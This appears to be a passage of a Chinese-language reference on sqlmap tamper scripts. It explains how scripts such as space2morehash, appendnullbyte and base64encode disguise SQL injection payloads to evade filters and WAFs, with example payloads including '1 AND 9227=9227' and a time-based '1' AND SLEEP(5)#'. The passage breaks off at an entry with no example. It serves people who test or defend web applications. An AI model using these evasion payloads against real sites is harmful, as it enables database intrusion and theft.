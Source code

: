 * space2morehash.py

　　作用：空格替换为 #号 以及更多随机字符串 换行符


　　Example: 
``` bash
   Input: 1 AND 9227=9227 

   Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227

```



* appendnullbyte.py

　作用：在有效负荷结束位置加载零字节字符编码
　Example: 
``` bash
('1 AND 1=1') '1 AND 1=1%00' 

```
　　常用于access
* ifnull2ifisnull.py

　作用：绕过对 IFNULL 过滤。 替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’
Example:
``` bash
('IFNULL(1, 2)') 'IF(ISNULL(1),2,1)' 
```
* space2mssqlblank.py(mssql)

　　作用：空格替换为其它空符号

　　Example: 
``` bash
 Input: SELECT id FROM users * 
 Output: SELECT%08id%02FROM%0Fusers
```



* base64encode.py

　　作用：用base64编码替换 Example: ("1' AND SLEEP(5)#") 'MScgQU5EIFNMRUVQKDUpIw==' Requirement: all


* space2mssqlhash.py

　　作用：替换空格


　　Example: 
``` bash
('1 AND 9227=9227') '1%23%0AAND%23%0A9227=9227' 
```
* modsecurityversioned.py

　　作用：过滤空格，包含完整的查询版本注释


　　Example:
